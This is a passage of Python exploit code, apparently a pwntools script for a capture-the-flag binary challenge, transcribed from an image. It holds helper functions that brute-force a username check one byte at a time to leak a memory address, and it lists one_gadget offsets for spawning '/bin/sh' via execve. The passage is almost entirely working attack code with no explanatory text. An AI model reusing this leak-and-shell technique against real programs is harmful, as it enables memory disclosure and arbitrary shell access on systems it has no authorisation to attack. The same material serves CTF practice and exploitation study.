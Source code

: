 ```python
    p.recvuntil('{i} Username length:')
    p.sendline(str(mun))
    p.recvuntil('{i} Enter username:')
    p.sendline(text)
    
def login(text):
    #sleep(0.2)
    p.sendline('2')
    p.recvuntil('{i} Username:')
    p.send(text)


def gess(n):
    if n==6:
        return 0x7f  
    if n==1:
        return 0xa0
       

    #debug()
    for i in range(0x100):
        #i=0xff-i
       # sleep(0.1)
        add(0x20+n,'w'*0x20+'w'*(n-1)+chr(i))
       # sleep(0.2)
        p.recvuntil('->')
       
       #print(i)
       # sleep(0.1)
        login('w'*(0x20+n-1)+'\n')
        line=p.recvline()[:-1]
                    #print(i)
        if line!=' Invalid username! :)':
                        print(hex(i))
                        return i
    
    return 0xa

def link():
    x=0
    k=0x100
    for i in range(6):
        x=x+gess(i+1)*k
	#debug()
        k=k*0x100
        log.info(hex(x//0x100))
    print(hex(x//0x100))
    return x//0x100

"""
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
```